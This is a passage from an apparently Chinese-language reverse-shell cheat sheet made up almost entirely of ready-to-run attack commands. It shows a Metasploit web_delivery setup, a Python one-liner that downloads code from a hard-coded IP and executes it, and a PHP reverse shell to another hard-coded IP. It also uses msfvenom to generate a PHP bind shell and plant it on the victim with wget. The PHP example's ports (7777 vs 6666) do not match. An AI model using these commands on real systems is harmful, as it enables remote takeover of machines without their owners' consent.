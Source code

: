     ```sh
    use exploit/multi/script/web_delivery
    msf5 exploit(multi/script/web_delivery) > set target 0
    msf5 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
    msf5 exploit(multi/script/web_delivery) > set lport 8888
    msf5 exploit(multi/script/web_delivery) > exploit –j

    # 被控端运行以下代码
    python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://139.155.49.43:8080/pWMAajktf', context=ssl._create_unverified_context());exec(r.read());"
    ```

- msf 生成 payload

    ```sh
    msfvenom -l payload | grep "python" | awk '{print $1}'
    ```

## php

- php命令反弹shell

    被控端：

    ```sh
    php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

    控制端：

    ```sh
    nc -lvvp 6666
    ```

- msfvenom 生成反弹shell脚本

    控制端：

    ```sh
    # 生成 payload
    msfvenom -p php/bind_php lport=6666 -f raw > bind_php.php

    # 开启监听
    python -m http.server
    ```

    被控端：

    ```sh
    wget attacker-ip:port/bind_php.php
    # 这里的port是控制端python http.server监听的端口
    # 这一步操作就是将木马文件下载的被控主机的web目录下
    ```
